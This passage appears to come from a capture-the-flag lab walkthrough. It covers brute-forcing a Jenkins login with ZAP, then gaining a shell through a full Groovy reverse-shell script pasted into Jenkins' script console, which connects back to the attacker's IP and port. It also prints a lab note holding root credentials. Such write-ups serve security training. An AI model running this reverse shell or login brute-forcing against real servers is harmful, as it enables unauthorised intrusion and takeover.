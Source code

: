 Now we can simply go to localhost:8080 and we are in the login page for jenkins.

From there I try to brute force the login page using ZAP.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fecbb84-9598-4ec2-9fa9-5ad99163bcf9/b9960a90-b48b-4c25-ac64-83f5d0a17ac0/Untitled.png)

As you can see I got a request much different from the others, often that means that we have what we want.

Now that we are into Jenkins we just need to go to the script console, and writing this:

```bash
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

cmd.exe if is windows, /bin/bash if is linux.

And start the listener in our machine.

Now that we are inside the machine we can go into the opt folder again and take the root credentials:

```bash
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```
